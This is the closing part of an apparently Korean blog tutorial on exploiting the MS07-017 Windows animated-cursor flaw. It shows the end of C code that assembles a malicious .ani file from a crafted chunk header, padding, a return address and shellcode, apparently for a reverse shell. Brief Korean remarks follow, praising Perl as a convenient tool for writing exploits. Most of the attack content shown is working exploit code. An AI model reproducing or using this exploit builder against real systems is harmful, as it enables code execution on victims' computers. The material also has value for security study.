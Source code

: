       pointer += sizeof (SecondChunkHeader) - 1;
      memcpy (payload + pointer, padding, 80);

      pointer += 80;
      memcpy (payload + pointer, RET, 4);

      pointer += 4;
      memcpy (payload + pointer, padding, 20);

      pointer += 20;
      memcpy (payload + pointer, Shell, sizeof (Shell) - 1);

      f = fopen ("07017ex_reverse.ani", "wb");
      if (!f)
        {
          printf ("[_] Cannot create file\n");
          return EXIT_FAILURE;
        }
      fwrite (payload, 1, sizeof (payload), f);
      fclose (f);

      return 0;
    }

이제 왜 제가 Perl을 사용하는지 아시겠죠? ;-)



정리하며
---------

Perl은 시스템 관리와 프로그램 작성에 널리 사용되는 언어일 뿐만 아니라
앞에서 보았듯이 목적(지금은 익스플로잇 작성? :)에 쉽게 도달할 수 있게
도와주는 강력한 도구입니다.
이런 Perl의 유연함과 강력함이 많은 해커들을 매료시키지 않았을까요?
조금은 에둘러 왔지만, 단지 시스템 관리자와 프로그래머만이
Perl을 사용하는 것이 아니란 사실 잊지마세요. ;-)



[prepare-before-after]: 2010-12-19-01.jpg
[binary-diff]:          2010-12-19-02.jpg
[binary-diff-zoom]:     2010-12-19-03.jpg
[target-file]:          2010-12-19-05-01.jpg width=700px
[target-file-analysis]: 2010-12-19-05-02.jpg
[metasploit-anihchunk]: 2010-12-19-06.jpg
[trap-card]:            2010-12-19-07.jpg
[youve-trapped]:        2010-12-19-08.jpg width=700px
[reverse-shell]:        2010-12-19-09.jpg

[backtrack-home]:       http://www.backtrack-linux.org/
[metasploit-home]:      http://www.metasploit.com/
[ms07-017-patch]:       http://www.microsoft.com/korea/technet/security/bulletin/ms07-017.mspx
[riff-file-format]:     http://mips.changwon.ac.kr/cyber/multi_theory/multimedia/mmd3-1.html
[twitter-vohrmana]:     http://twitter.com/#!/vohrmana
[wikipedia-exploit]:    http://en.wikipedia.org/wiki/Exploit_%28computer_security%29
